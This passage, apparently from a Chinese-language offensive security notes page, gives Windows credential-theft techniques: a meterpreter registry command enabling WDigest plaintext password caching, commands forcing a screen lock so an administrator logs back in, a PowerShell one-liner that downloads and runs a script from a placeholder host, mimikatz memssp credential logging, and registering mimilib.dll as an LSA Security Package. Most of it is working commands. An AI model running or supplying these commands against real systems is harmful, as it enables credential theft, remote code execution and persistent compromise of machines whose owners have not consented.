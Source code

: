 - meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCreden
    ```

**让管理员重新登录**

在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。

强制锁屏

- cmd
    ```bash
    rundll32 user32.dll,LockWorkStation
    ```

- powershell
    ```powershell
    Function Lock-WorkStation
    {
    $signature = @"
    [DllImport("user32.dll", SetLastError = true)]
    public static extern bool LockWorkStation();
    "@
    $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
    $LockWorkStation::LockWorkStation() | Out-Null
    }
    Lock-WorkStation
    ```
    ```powershell
    powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
    ```

    重新读取，可读到明文密码。

### ssp

mimikatz 包含的 SSP 提供自动记录本地验证凭证的功能。这包括计算机账户密码、运行服务凭证和任何登录的账户。默认情况下，这些数据会被记录在与 dll 文件相同的位置上，但也可以在系统的其他地方记录这些数据。如果 Windows 系统是一个提供认证用户访问权限的域控制器，那么备用的日志位置可以在 SYSVOL 中。

```bash
privilege::debug
misc::memssp
```
记录的结果在 `c:/windows/system32/mimilsa.log`

### dll

在 mimikatz 中有 32 和 64 两个版本，安装包里分别都带有不同位数的 mimilib.dll, 将对应版本的 dll 文件复制到 c:\windows\system32 下

将注册表中 Security Packages 的值设置为 mimilib.dll
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d mimilib.dll /f
```
